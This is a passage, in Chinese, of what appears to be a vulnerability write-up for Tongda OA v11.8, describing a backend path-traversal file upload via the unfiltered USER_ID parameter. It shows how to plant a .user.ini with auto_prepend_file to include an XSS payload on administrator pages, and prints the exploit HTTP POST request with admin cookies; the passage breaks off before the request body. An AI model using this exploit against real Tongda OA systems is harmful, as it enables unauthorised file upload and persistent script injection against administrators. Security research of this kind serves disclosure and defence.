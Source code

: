 ```php
	}
}
```

![](通达OA-v11.8-后台文件包含XSS漏洞.assets/1627363515253101.jpg)

在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含XSS语句的文件的，所以我们上传文件

内容为

```
auto_prepend_file=peiqi.log
```

我们想要最大化利用可以上传在**首页或者管理员** 界面，利用自定义弹窗来渗透

这里对管理员页面 **general** 目录上传

请求包为

```
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1
```